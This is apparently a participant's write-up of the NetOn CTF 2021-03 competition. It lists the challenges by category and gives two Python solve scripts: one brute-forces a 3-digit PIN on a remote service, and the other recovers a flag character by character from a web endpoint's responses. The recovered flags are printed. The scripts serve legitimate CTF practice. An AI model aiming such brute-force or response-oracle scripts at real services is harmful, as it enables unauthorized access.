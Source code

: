 # NetOn CTF 2021-03

I was excited to participate in my first ever CTF and enjoyed the experienced very much. Thanks to all of those involved in setting it up! ~<3

There were a total of 9 categories with 43 questions combined.

CTF Rules:

![](CTF%20Rules.png)

Final Top 10:

![](CTF%20Top%2010.png)

## Pwn Category

### Limited - 499

![](Challenge%20Screenshots/%20Pwn%20-%20Limited.png)

```py
#!/usr/bin/env python3

# Imports
from pwn import *

# Connect parameters
host = "167.99.129.209"
port = 10002

pwd = 0
while pwd < 1000:
	# Open connection
	s = remote(host, port)
	s.recvuntil("\n")
	# Loop over given tries (re-connect afterwards)
	for j in range(3):
		# Increment trial 3-digit password and send
		pwd += 1
		s.sendline(str(pwd))
		# Get return
		rstr = s.recvuntil("\n", drop=True).decode("latin-1")
		print(rstr)
		s.recvuntil("\n")
		# Check return string
		if rstr[0] != 'S':
			print(rstr)
			pwd += 1000
		# Visual check of progress
		if pwd % 100 == 0:
			print(pwd)
	# Close connection
	s.close()
```

Although the password is randomised (as could be deduced from the provided ELF), a 3-digit password can be easily brute-forced. So to no surprise, at some point this script got lucky and got returned:

```
Nice! The flag is NETON{N1c3_ByP4sS_My_Fr13eND!}
```

I'm not sure whether this counts as a bypass... but hey, it worked. : )

## Web Category

### Welcome to FilterLand - 208

### Picnicnic - 222

![](Challenge%20Screenshots/Web%20-%20Picnicnic.png)



### Let me in! - 245

![](Challenge%20Screenshots/Web%20-%20Let%20me%20in!.png)



### Grades - 486

## Stego Category

### Jungle Meeting - 50

### Seeing blurry - UNSOLVED (50)

### Winter - 218

### Step by step - UNSOLVED (250)

### Invisibility - UNSOLVED (500)

## OSINT Category

### Caesar's Secret - 163

### Caputure The Flag - 436

## Crypto Category

### PawN PawN - 188

### Weak xor - 239

### BritishScientific - 242

### Facts Br0! - 244

### Not Morse - UNSOLVED (249)

### RSA... no primEs, no problEm - 500

## Coding Category

### Run Run Run - 215

### Step by step - 239

![](Challenge%20Screenshots/Coding%20-%20Step%20by%20step.png)

```py
#!/usr/bin/env python

# Imports
import requests

# All ASCII characters
chrs = [chr(i) for i in range(256)]
# All characters that returned 'getting closer'
chrs = '0134:ABCDEFGLNOSTU_abcdefghilmnorstuv{}' 

#  Trial flag
flag = "S"

i = 0
while i<len(chrs):
	# Create new flag to try
	new_flag = chrs[i] + flag 
	# Push the flag to the website
	push = requests.post("http://167.99.129.209:7788/index.php",data={'flag':new_flag})
	# Check return html
	pt = push.text[50:80]
	# Check for return
	print new_flag, pt
	if pt[0] == 'H':
		flag = new_flag
		i = 0
		print flag
	elif pt[0] == 'S':
		i += 1
	else:
		print 'Found it?:', flag
		break

# Print found result
print flag
```

With some trial and error I managed to get back

```
SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3
```

which, submitted as NETON{SuBsTr1nGs_4r3_FuN_4nD_C0uLD_b3_vUln3rAbL3}, turned out to be correct. : )



### SecretMessage - 247

## Forensics Category

### Infiltration - 183

### Picasso01 - 225

### Lost in Lab - 479

## Reversing Category

### File Bomb - UNSOLVED (475)

## Misc Category

### Inception - 183

### Photogra.fy - 227

### Kasiski the magician - UNSOLVED (235)

### MathTomata - 245

### Gotta catch em flag - 248


